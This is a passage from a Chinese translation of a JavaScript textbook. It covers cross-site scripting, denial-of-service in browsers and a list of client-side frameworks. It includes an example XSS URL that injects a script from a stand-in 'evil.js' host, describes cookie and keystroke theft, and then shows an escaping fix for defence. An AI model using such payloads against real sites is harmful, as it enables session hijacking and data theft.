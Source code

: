 只用这个URL，脚本会动态地生成另一个脚本（%3C和%3E是一个尖括号的编码）。在这个例子中，注入的脚本只显示一个对话框，这还是相对较好的情况。但是，如果考虑以下的情况：
```
http://siteA/greet.html?name=%3Cscript src=siteB/evil.js%3E%3C/script%3E
```
之所以叫跨站脚本攻击，就是因为它涉及多个站点。站点B（或者站点C）包含一个专门构造的到站点A的链接（就像上面那个），它会注入一个来自站点B的脚本。脚本eval.js驻留在恶意站点B中，但现在，它嵌入到站点A中，并且可以对站点A的内容进行任何想要的操作。它可能破坏这个页面或者使其不能正常工作（例如，启动下一节所要介绍的拒绝服务攻击）。这可能会对站点A的用户带来不少坏处。更危险的是，恶意脚本可以读取站点A所存储的cookie（可能是统计数据或者其他个人验证信息），然后把数据发送回站点B。注入的脚本甚至可以诱骗用户击键并将数据发送回站点B。

通常，防止XSS攻击的方式是，在使用任何不可信的数据来动态的创建文档内容之前，从中移除HTML标签。可以通过添加如下一行代码来移除script标签两边的尖括号，从而修复前面给出的greet.html文件。
```javascript
name = name.replace(/</g, "&lt;").replace(/>/g, "&gt;");
```
上面的简单代码替换把字符串中所有的尖括号替换成它们所对应的HTML实体，也就是说将字符串中任意HTML标签进行转义和过滤删除（deactivate）处理。IE8定义了一个更加微妙的toStaticHTML()方法，可以移除script标签（和其他潜在的可执行内容）而不修改不可执行的HTML。toStaticHTML()是不标准的，但在Javascript核心代码中自己实现一个HTML安全函数也非常简单。

HTML5的内容安全策略则更进一步，它为iframe元素定义了一个sandbox属性。在实现之后，它允许显示不可信的内容，并自动禁用脚本。

跨站脚本使得一个有害的漏洞能够立足于web的架构之中。深入理解这些跨站脚本的知识是值得的，但是更深入的讨论超出了本书的范围。有很多在线资源可以帮助你预防跨站脚本带来的危险。其中一个最重要的参考资料出自原始CERT Advisory：http://www.cert.org/advisories/CA-2000-02.html。

**13.6.5拒绝服务攻击**

这里描述的同源策略和其他的安全限制可以很好地预防恶意代码毁坏数据或者防止侵犯隐私这种问题。然而，它们并不能防止另外一种攻击：拒绝服务攻击，这种攻击手法非常暴力。如果访问了启用javascript功能的一个恶意web站点，这个站点可以使用一个alert()对话框的无循环占用浏览器，或者用一个无限循环或没有意义的计算来占用CPU。

某些浏览器可以检测运行时间很长的脚本，并且让用户选择终止它们。但是恶意脚本可以使用window.setInterval()这样的方法来占用CPU，并通过分配很多的内存来攻击你的系统。web浏览器并没有通用的方法来防止这种笨重的攻击手法。实际上，由于没有人会返回一个滥用这种脚本的网站，因此这在web上不是一个常见的问题。

**13.7客户端框架**

一些web开发者发现基于客户端框架或类库来创建它们的web应用非常便捷。从某种意义上讲类库也是框架，它们对web浏览器提供的标准和专用的API进行了封装，向上提供了更高级别的API，用以更高效地进行客户端编程开发。一旦使用一个框架，就要用框架定义的API来写代码，使用框架的一个明显的好处是高级的API可以用更简洁的代码完成更复杂的功能。此外，完善的框架也会帮我们处理上文提到的很多兼容性、安全性和可访问性问题。

第19章会介绍jQuery，jQuery是当前最流行的框架之一。如果你决定在你的项目中使用jQuery，还应该阅读第19章的内容；理解底层API会帮助你成为更加优秀的web开发者，即使你很少直接使用它们。

除了jQuery以外，还有一些其他的javascript框架——远超过在这里列出的框架。其中有些开源框架非常有名且广泛使用：

* Prototype：Prototype类库（http://prototypejs.org）和jQuery类似，是专门针对DOM和Ajax实现的一套实用工具，此外还为语言核心扩展了很多实用工具，Scriptaculous（http://script.aculo.us）类库是基于Prototype来实现的，可以用来做动画和各种视觉特效。
* Dojo：Dojo（http://dojotoolkit.org）是一个大型的框架，它宣称自己“深不可测”。它包含一个种类繁多的UI组件集合、包管理系统、数据抽象层等。
* YUI：YUI（http://developer.yahoo.com/yui/）是Yahoo！使用的一个著名框架，是Yahoo!的工程师团队开发的，已经应用在包含Yahoo!主页在内的诸多项目中。YUI和Dojo一样庞大，是一个无所不包的类库，包括语言工具、DOM工具，UI组件等。目前已经有两个不兼容版本的YUI存在，分别为YUI2和YUI3。
* Closure：Closure类库（http://code.google.com/closure/library/）是google应用于Gmail、GoogleDocs和其他web应用的客户端类库。这个类库是打算和Closure编译器（http://code.google.com/closure/compiler）配合使用，剔除没有用的类库函数。因为没有用的代码会在部署之前被移除，Closure类库的设计者不需要保持特性集合的紧凑，所以Closure包含一个庞大的实用工具集合。
* GWT：GWT，即GoogleWebToolkit（http://code.google.com/webtoolkit/）是一个完全不同类型的客户端框架。它用JAVA定义了web应用接口，并提供编译器，将JAVA程序翻译成兼容的客户端javascript。GWT在一些Google产品中使用，但是不如它们自己的Closure类库使用得那么广泛。


window对象
----------
第13章介绍了Window对象及其在客户端javascript中所扮演的核心角色：它是客户端javascript程序的全局对象。本章介绍window对象的属性和方法，这些属性定义了许多不同的API，但是只有一部分实际上和浏览器窗口有关。Window对象是以窗口命名的。本章介绍以下方面：
